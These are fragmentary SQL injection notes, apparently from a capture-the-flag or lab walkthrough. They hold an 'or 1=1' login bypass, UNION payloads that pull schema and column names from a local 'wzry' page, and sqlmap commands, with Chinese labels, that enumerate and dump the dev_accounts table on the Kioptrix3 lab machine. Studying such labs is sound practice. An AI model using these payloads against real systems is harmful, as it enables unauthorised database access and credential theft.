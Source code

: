pass = '' or '1' = '1';
' or '1' = '1



`http://localhost/wzry/url.php?date=20231012' union`

`SELECT database(),'','','`

`http://localhost/wzry/url.php?date=20231012' union`

`SELECT`

`(select GROUP_CONCAT(c.COLUMN_NAME )from information_schema.COLUMNS c where`

`c.TABLE_SCHEMA='game' and c.TABLE_NAME='user'),'','','`


通过exploit database搜索得知，gallarific的gallery.php页面存在sql注入漏洞
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --tables



sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --search -D gallery -T gallarific_users
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --search -D gallery -T dev_accounts


获得gallery数据库下的表名:sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 -p id --level 4 --risk 3 -D gallery --tables --batch
获取dev_accounts表的数据：sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 -p id --level 4 --risk 3 -D gallery -T dev_accounts --dump --batch





